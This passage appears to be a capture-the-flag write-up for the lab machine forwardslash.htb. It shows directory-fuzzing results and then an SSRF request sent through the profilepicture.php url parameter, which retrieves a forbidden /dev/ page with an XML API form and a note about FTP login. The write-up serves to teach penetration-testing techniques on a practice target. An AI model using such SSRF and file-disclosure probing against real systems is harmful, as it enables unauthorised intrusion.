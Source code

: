 ```

login.php               [Status: 200, Size: 1267, Words: 336, Lines: 40]
register.php            [Status: 200, Size: 1490, Words: 426, Lines: 42]
index.php               [Status: 200, Size: 1267, Words: 336, Lines: 40]
logout.php              [Status: 200, Size: 1267, Words: 336, Lines: 40]
config.php              [Status: 200, Size: 0, Words: 1, Lines: 1]
api.php                 [Status: 200, Size: 127, Words: 22, Lines: 2]
dev                     [Status: 403, Size: 65, Words: 6, Lines: 1]
.                       [Status: 200, Size: 1267, Words: 336, Lines: 40]
welcome.php             [Status: 200, Size: 1267, Words: 336, Lines: 40]
environment.php         [Status: 200, Size: 1267, Words: 336, Lines: 40]
reset-password.php      [Status: 200, Size: 1267, Words: 336, Lines: 40]
hof.php                 [Status: 200, Size: 1267, Words: 336, Lines: 40]
:: Progress: [114801/114801]┬á:: Job [1/1] :: 1881 req/sec :: Duration: [0:01:01] :: Errors: 0 ::
```

It seems there is a dev endpoint that dives us a HTTP 403.
But even authenticated we can't access http://backup.forwardslash.htb/dev/

Hopefully the `url` parameter is not only vulnerable to file disclosure and path
traversal but also to SSRF (Server Side Request Forgery).
Maybe locally this will be allowed, so let's try teh following request in [burp][burp]:

```
POST /profilepicture.php HTTP/1.1
Host: backup.forwardslash.htb
...
Cookie: PHPSESSID=mbmjmv76c2veso4c1ihneuh5bt

url=http://backup.forwardslash.htb/dev/
```

Yes! We obtained the HTML code of the dev endpoint:

```html
<html>
	<h1>XML Api Test</h1>
	<h3>This is our api test for when our new website gets refurbished</h3>
	<form action="/dev/index.php" method="get" id="xmltest">
		<textarea name="xml" form="xmltest" rows="20" cols="50"><api>
    <request>test</request>
</api>
</textarea>
		<input type="submit">
	</form>

</html>

<!-- TODO:
Fix FTP Login
-->
```

It's talking about XML and FTP login as said in the deface.
